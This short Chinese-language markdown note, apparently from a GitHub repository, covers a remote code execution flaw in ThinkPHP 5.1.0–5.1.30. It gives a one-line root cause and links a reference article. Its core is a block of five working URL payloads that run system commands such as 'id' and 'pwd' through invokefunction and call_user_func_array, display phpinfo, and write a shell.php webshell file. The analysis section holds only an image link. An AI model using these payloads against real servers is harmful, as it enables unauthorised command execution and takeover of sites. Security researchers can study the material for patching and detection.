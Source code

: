 # thinkphp 5.1.x RCE

# 参考文章

[https://xz.aliyun.com/t/9369](https://xz.aliyun.com/t/9369)

# RCE1

## 根本原因

thinkphp没有对用户传入的操作器名称进行过滤,导致可以调用顶部类中的方法,造成一系列的危害

## 影响版本

TP5.1.0-5.1.30

## payload

 ```PHP
 ?s=index/\think\Request/input&filter[]=system&data=pwd
 ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>#注意由于windows不区分大小写的原因所以这个payload在windows下无法使用
 ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
 ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ```


## 分析

![](image/analysize.png)


